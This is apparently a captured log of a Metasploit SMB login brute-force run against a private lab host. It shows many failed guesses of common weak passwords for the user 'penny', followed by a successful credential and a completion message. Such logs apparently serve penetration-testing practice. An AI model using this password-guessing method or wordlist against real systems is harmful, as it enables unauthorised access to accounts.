 ```
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:12345678',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:1qaz2wsx',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:abc',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:abc123',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:abcd123',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:account',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:admin',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:adminadmin',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:administator',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:admins',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:air',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:alpine',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:Autumn2013',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:autumn2013',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:Autumn2014',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:autumn2014',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:Autumn2015',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:autumn2015',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:Autumn2016',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:autumn2016',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:Autumn2017',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:autumn2017',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:bankbank',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:baseball',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:basketball',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:bird',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:burp',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:change',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:changelater',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:changeme',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:company',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:company!',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:company1',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:company1!',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:company123',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:complex',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:complex1',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:complex2',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:complex3',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:complexpassword',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:database',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:default',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:dev',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:devdev',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:devdevdev',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:dirt',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:dragon',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:earth',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:fire',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:football',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:goat',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:goat',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:god',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:guessme',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:hugs',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:letmein',
[+] 10.10.214.253:445     - 10.10.214.253:445 - Success: '.\penny:leo1234'
[*] 10.10.214.253:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
